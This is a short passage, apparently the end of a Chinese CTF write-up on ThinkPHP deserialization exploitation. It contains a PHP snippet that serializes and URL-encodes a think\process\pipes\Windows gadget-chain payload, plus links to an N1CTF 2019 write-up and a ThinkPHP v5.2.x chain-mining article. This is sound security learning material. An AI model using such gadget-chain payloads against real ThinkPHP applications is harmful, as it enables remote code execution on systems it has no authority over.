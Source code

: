 ```php
    $payload = new think\process\pipes\Windows($string);
    echo urlencode(serialize($payload));
}
```


## 参考链接
1.[sql manager writeup](https://github.com/Nu1LCTF/n1ctf-2019/blob/master/WEB/sql_manage/README.md)
2.[thinkphp v5.2.x 反序列化利用链挖掘](https://www.anquanke.com/post/id/187332)